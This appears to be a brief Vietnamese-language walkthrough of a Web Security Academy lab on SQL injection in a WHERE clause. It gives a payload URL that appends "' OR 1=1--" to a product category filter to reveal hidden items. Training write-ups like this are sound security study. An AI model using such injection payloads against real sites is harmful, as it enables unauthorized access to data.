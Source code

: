 ## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- ứng dụng mua sắm hiển thị các sản phẩm trong các danh mục khác nhau. Khi người dùng nhấp vào danh mục Quà tặng, trình duyệt của họ yêu cầu URL:

![image](https://user-images.githubusercontent.com/76999751/136968164-cbf315c3-5662-4012-a820-4d241f007c41.png)

- Sủ dụng "--" để comment tất cả query ở sau nó
- hiển thị tất cả các sản phẩm trong bất kỳ danh mục nào

```https://ac8d1f8f1ef36c64c05f185900fe002c.web-security-academy.net/filter?category=Gifts%27+OR+1=1--```

![image](https://user-images.githubusercontent.com/76999751/136968866-50995f19-9585-4fe9-8cc9-570a63cc5e18.png)

